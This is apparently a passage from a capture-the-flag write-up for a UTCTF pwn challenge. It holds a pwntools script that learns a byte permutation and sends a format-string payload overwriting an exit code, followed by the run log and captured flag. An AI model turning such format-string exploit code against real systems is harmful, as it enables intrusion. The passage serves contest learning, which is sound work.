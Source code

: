 ```python
    log.info(f'ec: {ec}')

    binary = context.binary = ELF('./aeg2',checksec=False)

    m = 512 * [0]
    for i in range(4):
        s = (i * 128) * [ord(b'A')] + list(range(128,256)) + ((3 - i) * 128) * [ord(b'A')]
        context.log_level = 'WARN'
        p = process(binary.path)
        p.sendline(bytes(s))
        _ = [*p.recvline().strip()]
        p.close()
        context.log_level = 'INFO'
        for j in range(128,256): m[i * 128 + (j - 128)] = _.index(j)

    offset = 8
    payload  = b''
    payload += fmtstr_payload(offset,{binary.sym.exit_code:ec})
    payload += (0x200 - len(payload)) * b'\0'

    s = 512 * [0]
    for i in range(0x200): s[m.index(i)] = payload[i]

    r.sendlineafter(b'input: \n',bytes(s))
    os.rename('./aeg2','./aeg2.' + str(z))

r.recvuntil(b'utflag{')
flag = 'utflag{' + r.recvuntil(b'}').strip().decode()
r.close()
print(flag)
```

Alternative solution that just calls the binary four times to workout the mapping.

> The previous solution does not require calling the binary at all.

```bash
# ./exploit2.py
[+] Opening connection to pwn.utctf.live on port 5002: Done
[*] ec: 14
[*] ec: 107
[*] ec: 89
[*] ec: 242
[*] ec: 154
[*] ec: 202
[*] ec: 254
[*] ec: 122
[*] ec: 9
[*] ec: 118
[*] Closed connection to pwn.utctf.live port 5002
utflag{you_mix_me_right_round_baby_right_round135799835}
```
